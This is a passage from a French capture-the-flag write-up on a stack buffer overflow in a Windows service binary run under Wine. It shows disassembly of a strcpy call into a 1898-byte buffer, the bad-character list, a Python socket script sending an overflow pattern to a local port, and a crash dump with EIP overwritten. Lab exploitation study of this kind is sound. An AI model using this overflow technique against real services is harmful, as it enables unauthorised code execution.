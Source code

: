 Le fichier est accompagné d'une DLL :

```shellsession
www-data@school:/$ ls -l /opt/access/
total 80
-rw-r--r-- 1 root root 51019 Nov  7  2020 access.exe
-rw-r--r-- 1 root root 28613 Nov  7  2020 funcs_access.dll
```

## Copier Coller

Je n'entrerais pas dans les détails du reverse-engineering sur ce CTF car le binaire est quasiment le même que sur Netstart. La vérification des mauvais caractères différe :

```
0x4d 0x4f 0x5f 0x79 0x7e 0x7f
```

La fonction vulnérable (qui a le même nom) a une stack plus grande :

```nasm
_f3 (char *arg_8h);
; var char *dest @ ebp-0x76a
; arg char *arg_8h @ ebp+0x8
; var const char *src @ esp+0x4
0x004018ce      push ebp
0x004018cf      mov ebp, esp
0x004018d1      sub esp, 0x788
0x004018d7      mov eax, dword [arg_8h]
0x004018da      mov dword [src], eax ; const char *src
0x004018de      lea eax, [dest]
0x004018e4      mov dword [esp], eax ; char *dest
0x004018e7      call _strcpy       ; sym._strcpy ; char *strcpy(char *dest, const char *src)
0x004018ec      nop
0x004018ed      leave
0x004018ee      ret
```

Ici 1898 (0x76a) octets sont réservés pour le buffer suvi par les sauvegardes de EBP et EIP.

Pour le vérifier on peut envoyer des données qui devraient se caler parfaitement sur les registres :

```python
import socket

sock = socket.socket()
sock.connect(('127.0.0.1', 2323))
buff = b"A" * 1898 + b"BBBBCCCC" + b"D" * 1024
sock.send(buff)
sock.close()
```

Et ça marche, comme l'indique l'outil de gestion de crash de Wine :

```
Unhandled exception: page fault on read access to 0x43434343 in 32-bit code (0x43434343).
Register dump:
 CS:0023 SS:002b DS:002b ES:002b FS:0063 GS:006b
 EIP:43434343 ESP:0135fb08 EBP:42424242 EFLAGS:00010246(  R- --  I  Z- -P- )
 EAX:0135f396 EBX:00000040 ECX:0135f396 EDX:00000000
 ESI:00000000 EDI:00000000
Stack dump:
0x0135fb08:  44444444 44444444 44444444 44444444
0x0135fb18:  44444444 44444444 44444444 44444444
0x0135fb28:  44444444 44444444 44444444 44444444
0x0135fb38:  44444444 44444444 44444444 44444444
0x0135fb48:  44444444 44444444 44444444 44444444
0x0135fb58:  44444444 44444444 44444444 44444444
```